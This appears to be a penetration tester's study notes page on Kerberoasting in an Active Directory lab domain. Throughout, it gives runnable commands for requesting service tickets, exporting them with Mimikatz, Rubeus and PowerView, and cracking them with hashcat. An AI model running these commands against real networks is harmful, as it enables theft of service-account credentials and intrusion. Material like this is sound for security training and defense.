# Kerberoasting

### Kerberoasting Overview

* This attack targets Service Principal Names (SPNs) accounts.
  * [purpose-of-service-principal-names-spn-in-active-directory.md](../blog/purpose-of-service-principal-names-spn-in-active-directory.md "mention")
    * SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running
      * Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

### Kerberoasting - Performing the Attack

* Depending on your position in a network, this attack can be performed in multiple ways:
  * From a non-domain joined Linux host using valid domain user credentials.
  * From a domain-joined Linux host as root after retrieving the keytab file.
  * From a domain-joined Windows host authenticated as a domain user.
  * From a domain-joined Windows host with a shell in the context of a domain account.
  * As SYSTEM on a domain-joined Windows host.
  * From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

## Kerberoasting - from Linux

### Kerberoasting with GetUserSPNs.py

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```



<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>



### Requesting all TGS Tickets

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```



<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Requesting a Single TGS ticket

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

#### Cracking the Ticket Offline with Hashcat

* crack with [hashcat.md](hashcat.md "mention")



```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

* password is database!

**Testing Authentication against a Domain Controller**

* [crackmapexec.md](crackmapexec.md "mention")

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - from Windows

### Manual way

#### Enumerating SPNs with setspn.executes

```cmd-session
setspn.exe -Q */*
```

#### Targeting a Single User

```powershell-session
Add-Type -AssemblyName System.IdentityModel
```

```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

* The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
* The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
* [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
* We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
* We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

#### Retrieving All Tickets Using setspn.exe

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Extracting Tickets from Memory with Mimikatz



* [mimikatz.md](mimikatz.md "mention")

```cmd-session
mimikatz # base64 /out:true
```

```cmd-session
mimikatz # kerberos::list /export  
```

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

```shell-session
kirbi2john.py sqldev.kirbi
```

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

* [hashcat.md](hashcat.md "mention")

```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated / Tool Based Route

#### Using PowerView to Extract TGS Tickets

```powershell-session
Import-Module .\PowerView.ps1
```

```powershell-session
Get-DomainUser * -spn | select samaccountname
```

#### Using PowerView to Target a Specific User

```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting All Tickets to a CSV File

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Using Rubeus

```powershell-session
.\Rubeus.exe kerberoast /stats
```

```powershell-session
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Using the /tgtdeleg Flag

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* `/tgtdeleg` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256

## Reference

* https://adsecurity.org/?p=3458
